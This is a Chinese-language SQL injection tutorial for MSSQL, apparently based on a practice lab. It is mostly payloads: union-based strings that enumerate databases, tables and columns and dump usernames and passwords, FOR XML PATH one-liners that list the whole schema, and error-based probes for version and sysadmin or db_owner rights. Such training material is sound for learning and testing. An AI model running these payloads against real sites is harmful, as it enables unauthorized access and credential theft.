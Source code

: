 order by 2 成功；order by 3 失败； order by 4 成功；order by 5 失败 说明列数位于 3-4之间。查找回显点

id=2 and 1=2 union all select null,null,null,null；挨个替换null 发现 select null,2,null,null 页面出现回显。

查找所在库名称添加： ?id=2 and 1=2 union all select 1,(select db\_name()), '3', 4

找到数据库名称。 提示：这里也可以使用db\_name(1)、db\_name(2)等查询其他数据

查找数据库表名称：?id=2 and 1=2 union all select 1,(select top 1 name from mozhe\_db\_v2.dbo.sysobjects where xtype = 'U'),'3',4提示: xtype='U' 为 用户表

?id=2 and 1=2 union all select 1,(select top 1 col\_name(object\_id('manage'),1) from sysobjects),'3',4替换 col\_name(object\_id('manage'),1) 中的1 依次为 2，3，4查出所有列名。

查取数据: ?id=2 and 1=2 union all select 1,(select top 1 username from manage),'3',4 获取用户名；

?id=2 and 1=2 union all select 1,(select top 1 password from manage),'3',4 获取密码

## 全回显操作

获取当前数据库中的表（有2个语句可供选择使用）【下列语句可一次爆数据库所有表（只限于mssql2005及以上版本）】

(select quotename(name) from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--

(select '|'%2bname%2b'|' from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--

案例： mozhe\_dbv2是数据库名字

![](https://pic3.zhimg.com/v2-92c6d76546a668fa3740925d335facce_b.jpg)

一次爆指定表的所有列（只限于mssql2005及以上版本）：

(select quotename(name) from 数据库名..syscolumns where id =(select id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))--

(select '|'%2bname%2b'|' from 数据库名..syscolumns where id =(select id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))—

案例： mange是表名  

![](https://pic3.zhimg.com/v2-b8521ceb98b3b6f5324d27578e9a6afe_b.jpg)

### 报错注入

and 1=(select @@VERSION) //**MSSQL**版本

And 1=(select db\_name()) //当前数据库名

and 1=(select @@servername) //本地服务名

and 1=(select IS\_SRVROLEMEMBER('sysadmin')) //判断是否是系统管理员sa

常用权限：sysadmin、serveradmin、setupadmin、securityadmin、diskadmin、bulkadmin

and 1=(Select IS\_MEMBER('db\_owner')) //判断是否是库权限dbo

and 1= (Select HAS\_DBACCESS('master')) //判断是否有库读取权限

### (2)单个爆破：
